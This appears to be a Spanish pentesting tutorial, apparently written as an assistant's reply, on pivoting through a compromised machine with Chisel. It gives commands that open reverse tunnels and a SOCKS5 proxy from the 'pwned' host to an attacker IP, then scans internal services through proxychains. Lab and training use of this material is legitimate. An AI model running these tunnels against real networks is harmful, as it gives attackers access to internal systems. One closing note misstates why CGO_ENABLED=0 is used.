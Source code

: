 Perfecto, Jorge. Vamos a actualizar el post incluyendo la configuración de **Proxychains** para que quede completo y funcional.
# Pivoting con Chisel

## Introducción

[Chisel](https://github.com/jpillora/chisel) es una herramienta escrita en Go que permite crear **túneles TCP/SOCKS reversos** y forwardings de puertos, ideal para pivoting dentro de una red comprometida.
Permite que un atacante exponga puertos internos de la red víctima a su máquina de forma sencilla, evitando la necesidad de abrirlos directamente al exterior.

---

## Instalación

Primero clonamos el repositorio y compilamos.
En este caso, como **la versión de glibc en la máquina destino estaba desactualizada**, usamos `CGO_ENABLED=0` para asegurar la compatibilidad:

```bash
git clone https://github.com/jpillora/chisel
cd chisel
CGO_ENABLED=0 go build -a -ldflags="-s -w" .
upx chisel  # Opcional, para reducir el binario
```

> Esto genera el binario `chisel`, listo para usarse en servidores y clientes.

---

## Uso Básico

Chisel funciona en **modo servidor** (atacante) y **modo cliente** (víctima).

### Servidor (Máquina Host)

```bash
sudo ./chisel server --reverse -p 1234
```

* `sudo` es necesario si vas a mapear puertos <1024, aunque no siempre obligatorio.
* `--reverse` habilita la recepción de conexiones desde clientes que hacen tunelado reverso.
* `-p 1234` define el puerto donde escuchará el servidor.

### Cliente (Máquina Pwned que queremos usar como puente)

```bash
./chisel client <IP_DEL_SERVIDOR>:1234 R:<PUERTO_LOCAL>:<IP_INTERNA>:<PUERTO_REMOTO>
```

* `R:` indica que es un **tunel reverso**.
* `<PUERTO_LOCAL>` es el puerto en tu máquina atacante donde se expondrá el servicio.
* `<IP_INTERNA>:<PUERTO_REMOTO>` es el destino real en la red interna.

> Ejemplo de error común:
> Si ves mensajes como `Server cannot listen on R:80=>172.19.0.4:80`, es probable que necesites **root** para abrir puertos <1024 en tu máquina.

---

## Ejemplo Pivoting Simple: HTTP/80

Si queremos mapear el puerto HTTP interno de la víctima (`172.19.0.4:80`) a nuestro puerto local:

### Servidor

```bash
sudo ./chisel server --reverse -p 1234
```

### Cliente (Pwned)

```bash
./chisel client 10.10.14.3:1234 R:80:172.19.0.4:80
```

* Ahora `http://localhost:80` en tu máquina atacante apuntará al servidor web interno de la víctima.

---

## Ejemplo Pivote Simple Redis: puerto 6379

Supongamos que hay un Redis interno en `172.19.0.4:6379` y queremos mapearlo a nuestro `localhost:8080`.

### Servidor

```bash
sudo ./chisel server --reverse -p 1234
```

### Cliente (Pwned)

```bash
./chisel client 10.10.14.3:1234 R:8080:172.19.0.4:6379
```

* Ahora podemos conectar desde nuestra máquina atacante usando:

```bash
redis-cli -p 8080
```

> **Explicación:**
> `R:8080:172.19.0.4:6379` → túnel reverso desde el puerto interno 6379 al puerto 8080 de nuestra máquina.

---

## Pivoting con SOCKS y Proxychains

Chisel permite levantar un **proxy SOCKS5** para pivotar todo tipo de tráfico TCP:

### Servidor

```bash
sudo ./chisel server --reverse -p 1234
```

### Cliente (víctima) con SOCKS

```bash
./chisel client 10.10.14.3:1234 R:socks
```

* Esto levanta un **proxy SOCKS5** en el puerto por defecto del servidor (1080), que puedes usar con herramientas como `proxychains`.

### Configuración de Proxychains

En `/etc/proxychains.conf` o `~/.proxychains/proxychains.conf` añade o modifica la línea del final:

```ini
# socks5 <IP_PROXY> <PUERTO>
socks5 127.0.0.1 1080
```

* Esto indica que todo el tráfico de Proxychains pasará por el SOCKS5 levantado por Chisel.

### Uso con Proxychains

```bash
proxychains curl http://172.19.0.4:80
proxychains nmap -p 1-1000 172.19.0.4
```

* Todo el tráfico será redirigido a través del túnel de la víctima, permitiendo explorar la red interna de manera segura.

---

## Notas y recomendaciones

* Siempre usar `CGO_ENABLED=0` si la máquina destino tiene Go antiguo.
* Para puertos <1024 es necesario **root**.
* Puedes mapear cualquier servicio TCP interno: HTTP, Redis, SMB, bases de datos, etc.
* Chisel es ligero y portable, ideal para pruebas rápidas de pivoting.
* Usar SOCKS + Proxychains permite pivoting **transparente para casi cualquier herramienta**.
